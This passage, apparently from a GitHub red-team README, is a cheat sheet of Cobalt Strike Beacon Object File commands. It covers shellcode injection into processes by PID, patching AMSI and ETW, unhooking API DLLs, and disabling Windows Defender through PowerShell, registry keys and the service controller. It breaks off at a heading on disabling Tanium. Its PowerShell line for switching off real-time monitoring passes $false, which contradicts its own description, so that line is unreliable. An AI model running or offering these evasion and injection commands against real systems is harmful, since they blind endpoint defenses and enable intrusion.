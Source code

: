 # Shellcode injection methods using Windows syscalls with [BOFs script](https://github.com/ajpc500/BOFs)
syscalls_inject <PID> <listener_name>
syscalls_shinject <PID> C:\beacon.bin
static_syscalls_inject <PID> <listener_name>
static_syscalls_shinject <PID> C:\beacon.bin
syscalls_shspawn C:\beacon.bin
```

### AMSI patch
[BOF-patchit](https://github.com/ScriptIdiot/BOF-patchit) for current process <br />
`patchit amsi`

[boku7/InjectAmsiBypass](https://github.com/boku7/injectAmsiBypass) BOF <br />
Patch AMSI in remote process
`inject-amsiBypass <PID>`

### ETW patch
[BOF-patchit](https://github.com/ScriptIdiot/BOF-patchit) for current process <br />
`patchit etw`

[ajpc500/BOFs](https://github.com/ajpc500/BOFs/) ETW patch for current process<br />
`etw stop` / `etw start`

### API Unhooking
Cobalt Strike's hail-mary unhooking function. "This is a Beacon Object File to refresh DLLs and remove their hooks. The code is from Cylance's Universal Unhooking research" <br />
`unbook`

### Disabling Windows Defender
```
# Disable Defender via PowerShell
powershell Set-MpPreference -DisableRealtimeMonitoring $false --> Attempt to disable Defender
powershell Get-MpPreference --> Check if RealTimeMonitoring is disabled

# Disabling Defender via Windows Registry
powershell Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1
powershell Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableRealTimeMonitoring -Value 1

# Disable Defender via Windows Registry using TrustedSec Remote Operations BOFs
reg_set HKLM "SOFTWARE\Policies\Microsoft\Windows Defender" DisableRealTimeMonitoring REG_DWORD 1
```

# Disable Defender Service
```
# Disable Defender Service using TrustedSec Remote Operations BOFs
sc_stop WinDefend
sc_qc WinDefend
```

### Disabling Tanium 
```